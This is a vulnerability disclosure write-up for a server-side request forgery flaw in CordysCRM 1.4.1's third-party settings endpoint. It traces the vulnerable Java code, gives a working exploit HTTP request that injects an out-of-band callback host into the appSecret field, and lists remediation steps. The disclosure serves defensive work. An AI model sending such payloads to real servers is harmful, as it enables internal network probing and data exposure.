

# CVE Submission: CordysCRM SSRF Vulnerability in /organization/settings/third-party/edit (SQLBOT appSecret)

## Vulnerability Information

| Field | Value |
|-------|-------|
| **Vendor** | Hangzhou Feizhiyun Information Technology Co., Ltd. |
| **Product** | CordysCRM |
| **Version** | 1.4.1 |
| **Type** | Server-Side Request Forgery (SSRF) |
| **CVSS** | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H |
| **Reference** | https://github.com/1Panel-dev/CordysCRM |

## Vulnerability Description

CordysCRM v1.4.1 contains a Server-Side Request Forgery (SSRF) vulnerability in the `/organization/settings/third-party/edit` endpoint. The vulnerability exists because the backend `IntegrationConfigService.java` extracts URLs from the `appSecret` parameter using regex pattern `src\s*=\s*"([^"]+)"` without proper validation. Extracted URLs are directly used to create HTTP connections via `URI.create(jsUrl).toURL().openConnection()` without any whitelist validation, protocol restriction (allowing file://, gopher:// etc.), or internal IP blocking.

Attackers can inject malicious URLs in the `appSecret` parameter (e.g., `appSecret": "src=\"http://<dnslog-domain>\""`) to force the server to make requests to arbitrary external addresses, potentially leading to internal network reconnaissance, data leakage, or further attacks.

## Code Analysis

### Step 1: Controller Layer (Data Receiving)

**File:** `backend/crm/src/main/java/cn/cordys/crm/system/controller/OrganizationSettingsController.java`

```java
@PostMapping("/third-party/edit")
@Operation(summary = "Edit third-party settings")
@RequiresPermissions(PermissionConstants.SYSTEM_SETTING_UPDATE)
public void editThirdConfig(@Validated @RequestBody ThirdConfigBaseDTO<Object> baseDTO) {
    integrationConfigService.editThirdConfig(baseDTO, OrganizationContext.getOrganizationId(), SessionUtils.getUserId());
}
```

### Step 2: Service Layer (Call Chain)

**File:** `backend/crm/src/main/java/cn/cordys/crm/system/service/IntegrationConfigService.java`

```java
// Call getSqlBotSrc to extract URL from appSecret
private String getSqlBotSrc(String appSecret) {
    // Regex pattern to extract src="..." URL
    Pattern pattern = Pattern.compile("src\\s*=\\s*\"([^\"]+)\"");
    Matcher matcher = pattern.matcher(appSecret);
    if (matcher.find()) {
        String jsUrl = matcher.group(1);
        // Direct HTTP HEAD request to extracted URL - NO VALIDATION!
        HttpURLConnection connection = (HttpURLConnection) URI.create(jsUrl).toURL().openConnection();
        connection.setRequestMethod("HEAD");
        // ...
    }
}
```

### Step 3: Execution Point (Sink)

**File:** `backend/crm/src/main/java/cn/cordys/crm/system/service/IntegrationConfigService.java`

```java
// The extracted URL is directly used to create HTTP connection
HttpURLConnection connection = (HttpURLConnection) URI.create(jsUrl).toURL().openConnection();
connection.setRequestMethod("HEAD");
// No whitelist validation, protocol restriction, or internal IP blocking!
```

### Call Chain Summary

```
OrganizationSettingsController.editThirdConfig()
  → IntegrationConfigService.editThirdConfig()
    → IntegrationConfigService.getSqlBotSrc(appSecret)
      → Pattern.compile("src\\s*=\\s*\"([^\"]+)\"").matcher(appSecret)  // Regex extract URL
        → URI.create(jsUrl).toURL().openConnection()  // User-controlled URL directly used
```

**Root Cause:** The `appSecret` parameter is processed using regex to extract URLs from `src="..."` patterns. The extracted URL is directly used to create HTTP connections without any whitelist validation, protocol restriction, or internal IP blocking. This allows attackers to inject arbitrary URLs.

## Exploit Details

```http
POST /organization/settings/third-party/edit HTTP/1.1
Host: 120.24.51.177:8081
Content-Type: application/json;charset=UTF-8
X-AUTH-TOKEN: 2eb10066-c751-4f74-81eb-93dac998a57b
CSRF-TOKEN: CYkmuI1mMeZP+DWKqb2SFFmpUwJrI5l7/TDRjSvHWpO1DejYcRvLwLbHCLCNdKVv+0zUK8fUM9HrnbsPWCfQMVcluauNJKqOdmbicTIxLw==
Content-Length: 186

{"type":"SQLBOT","sqlBotBoardEnable":true,"sqlBotChatEnable":true,"startEnable":true,"appSecret":"src=\"http://job2es6y7bluw2x4llwli9zhf8lz9xxm.oastify.com\""}
```

### Verification Method

1. Set up a DNS log platform (e.g., dnslog.pp.ua or Interactsh)

2. Inject malicious URL in `appSecret` parameter using `src="..."` format

3. Send the request and check if DNS resolution is received

   

4. If DNS callback is received, SSRF vulnerability is confirmed

   

### Impact

Successful exploitation allows attackers to:
- **Internal Network Reconnaissance**: Probe internal services and discover exposed hosts
- **Internal Service Attack**: Target other internal services that may have weaker authentication
- **Protocol Abuse**: Potentially use other protocols like `file://`, `gopher://` due to `openConnection()` usage

## Remediation

1. **Implement Whitelist Validation**: Only allow requests to trusted domains
2. **Block Internal IP Ranges**: Prevent access to 10.x.x.x, 172.16.x.x, 192.168.x.x, 169.254.x.x, and 127.x.x.x
3. **Restrict Protocols**: Only allow HTTP/HTTPS protocols, block file://, gopher://, etc.
4. **Input Sanitization**: Validate and sanitize all extracted URLs before making requests

## References

- https://github.com/1Panel-dev/CordysCRM